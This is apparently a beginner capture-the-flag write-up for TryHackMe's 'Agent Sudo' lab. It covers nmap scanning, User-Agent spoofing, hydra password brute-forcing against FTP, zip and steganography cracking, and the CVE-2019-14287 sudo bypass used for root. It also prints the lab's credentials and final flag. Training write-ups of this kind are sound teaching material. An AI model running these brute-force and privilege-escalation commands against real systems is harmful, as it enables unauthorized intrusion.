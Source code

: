 📝 CTF-Writeups/TryHackMe/AgentSudo/README.md

# 🕵️ Agent Sudo - TryHackMe CTF Write-up

**Date:** 02 March 2025  
**Platform:** TryHackMe  
**CTF Type:** Boot2Root  
**Difficulty:** Beginner to Intermediate  

---

## 🔍 Enumeration

### Rustscan + Nmap

rustscan -a agentsudo.thm

nmap -sC -sV -oA agentsudo.thm

Open Ports:

    21 FTP (vsftpd 3.0.3)

    22 SSH (7.6p1 Linux)

    80 HTTP

###🌐 Web Enumeration

No directories found initially.

Modified the User-Agent header to access a hidden page:

User-Agent: C

Accessed:

http://agentsudo.thm/agent_C_attention.php

Hidden Message Found

Attention chris,
Do you still remember our deal? Please tell agent J about the stuff ASAP.
Also, change your god damn password, it's weak!
- Agent R

### 🔐 SSH Brute Force

Found potential username: chris
Used hydra to brute-force FTP login:

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 4

Credentials Found:

    User: chris

    Password: crystal


### 🗜️ Cracking Zip Files
Convert zip to hashes

zip2john <file.zip> > hashes_for_john.txt

Crack with John the Ripper

john hashes_for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt

Password: alien
### 📂 File Extraction
Extract contents with 7zip

The file contained base64-encoded content:

echo QXJlYTUx | base64 -d

Decoded Message: Area51


### 🖼️ Steganography
Extract hidden message from image

steghide extract -sf <filename>

Output file: messahe.txt
Password for steghide: hackerrules!


### 👥 User Enumeration

Found another user: james
SSH into James' account

ssh james@agentsudo.thm
# Password: hackerrules!

Download suspicious file

scp james@agentsudo.thm:/home/james/Alien_autspy.jpg .

### 🔎 Image Analysis

Googled Alien_autspy.jpg and found Roswell alien autopsy.


### 🛠️ Privilege Escalation

Discovered user james can run this:

(ALL, !root) /bin/bash

Used CVE-2019-14287 exploit:

sudo -u#-1 /bin/bash

→ Root access obtained!


### 🏁 Final Flag:

b53a02f55b57d4439e3341834d70c062

### 📚 References

    CVE-2019-14287 - sudo bypass
